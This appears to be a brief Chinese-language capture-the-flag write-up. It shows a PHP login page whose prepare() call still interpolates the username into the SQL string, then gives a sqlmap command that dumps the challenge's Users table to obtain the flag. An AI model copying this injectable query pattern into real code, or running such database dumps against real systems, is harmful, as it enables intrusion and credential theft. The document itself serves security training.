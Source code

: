 ```php
<?php
include("init.php");

// if already logged in, redirect to dashboard
if (isset($_SESSION['username'])) {
    header('Location: dashboard.php');
    die();
}

// Handle form submission (both login and registration)
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Validation: Ensure both fields are filled
    if (empty($username) || empty($password)) {
        echo "Please enter both username and password.";
    } else {
        // Check if the username already exists
        $stmt = $db->prepare("SELECT * FROM Users WHERE username = '$username'");
        $result = $stmt->execute();
        $user = $result->fetchArray();

        if ($user) {
            // If user exists, login logic (verify password)
            if (password_verify($password, $user['password'])) {
                // Start session for the user
                $_SESSION['username'] = $username;
                $_SESSION['verified'] = 0; // Set verified to 0
                
                // redirect to dashboard
                header('Location: 2fa.php');
                die();
            } else {
                die("Invalid username or password.");
            }
        } else {
            // If user does not exist, 
            die("Invalid username or password.");
        }
    }
}
?>
```

我們可以看到雖然使用了prepare()函數嘗試防SQLI，但沒有被正確使用，導致$username 被直接插入字串中，接下來就用sqlmap下去炸users表。
```
sqlmap -u "http://login-screen.ctftime.uk:36368/index.php" \
--cookie="PHPSESSID=0989e32287dcbac0bc452506b6c33abe" \
--data="username=admin&password=1234" \
--batch -p username -D main -T Users --dump --threads=5
```
![螢幕擷取畫面 2025-05-24 201314](https://hackmd.io/_uploads/BkyYyaSfgl.png)
接下來登入就可以拿到flag
